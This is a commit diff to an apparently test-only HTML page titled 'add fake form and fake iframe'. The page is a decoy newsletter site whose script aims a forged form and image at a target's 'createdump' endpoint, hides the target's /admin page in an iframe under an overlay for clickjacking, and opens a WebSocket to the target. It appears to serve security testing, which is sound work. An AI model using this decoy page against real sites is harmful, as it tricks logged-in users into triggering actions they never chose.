

Before and after one commit to anovikov-finstek/test, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
add fake form and fake iframe

```diff
--- a/index.html
+++ b/index.html
@@ -1,3 +1,81 @@
-<div>
-	<img src="http://localhost:7000/api.service.createdump" alt="dump">
-</div>
+<body style="margin: 0">
+
+	<header style="padding: 8px 24px; background-color: #00b4ec; color: white">
+		<img id="img">
+		Compane name
+	</header>
+
+	<section style="padding: 8px 24px; text-align: center;">
+		<h2>Subscribe to our nesletter</h2>
+		<form id="form" method="post">
+			<button
+				style="
+					height: 40px;
+					width: 125px;
+				"
+				type="submit">Subscribe</button>
+		</form>
+	</section>
+
+	<section style="padding: 8px 24px; text-align: center; background-color: #00b4ec;">
+		<div style="position: relative; display: inline-block">
+			<iframe id="iframe"
+				title="iframe"
+				width="180"
+				height="425">
+			</iframe>
+			<div
+				style="
+				position: absolute;
+				top: 0;
+				bottom: 0;
+				left: 0;
+				right: 0;
+				opacity: 0.9;
+				pointer-events: none;
+				background-color: #00b4ec;
+				color: white
+			">
+				<h2 style="
+					position: absolute;
+					left: -30px;
+					width: 320px;
+				">See more about our product</h2>
+				<button
+					type="button"
+					style="
+					position: relative;
+					height: 40px;
+					width: 125px;
+					top: 250px;
+					left: 40px;
+				">Show more</button>
+			</div>
+		</div>
+	</section>
+
+
+
+	<script>
+		const q = location.search.substr(1).split('&');
+		const host = q[0].split('=')[1];
+		const port = q[1].split('=')[1];
+		const secure = q[2].split('=')[1];
+		const target = `${secure === 'true' ? 'https://' : 'http://'}${host}:${port}`;
+		const wstarget = `${secure === 'true' ? 'wss://' : 'ws://'}${host}:${port}`;
+
+		const ws = new WebSocket(wstarget);
+
+		const img = document.querySelector('#img');
+		const form = document.querySelector('#form');
+		const iframe = document.querySelector('#iframe');
+
+		const action = 'api.service.createdump';
+
+		img.src = `${target}/${action}`;
+		form.action = `${target}/${action}`;
+		iframe.src = `${target}/admin`;
+
+		//form.submit();
+	</script>
+</body>
```
